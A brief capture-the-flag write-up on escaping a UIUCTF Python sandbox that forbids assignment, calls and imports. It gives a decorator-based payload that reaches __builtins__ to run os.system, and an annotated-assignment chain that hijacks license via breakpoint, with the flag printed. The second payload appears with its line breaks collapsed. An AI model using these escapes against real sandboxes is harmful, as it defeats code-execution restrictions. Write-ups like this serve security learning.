 ```yaml
---
created: 2024-06-29T00:39
updated: 2024-08-05T19:34
tags:
  - AST
---
```


We are not allowed to use the following expressions in python: **assign**, **call**, **import**, **import from**, **binary operation (+-/ etc)**.

First thing that came to mind were function decorators.

```python
@safe_import.__globals__['__builtins__'].exec
@lambda x: 'safe_import.__globals__["__builtins__"].__import__("os").system("ls")'
def x(): 0
```

This is a working payload but it's 3 lines.

So I tried other things such as replacing `safe_import` with my own function but they all failed.

Then my teammates solved it with **AnnAssign**.

```python
builtins: "" = safe_import.__globals__["__builtins__"] license: "" = builtins.license license._Printer__setup: "" = builtins.breakpoint f"{license}"

# uiuctf{maybe_we_shouldnt_sandbox_python_2691d6c1}
```

Never knew python had such a function.
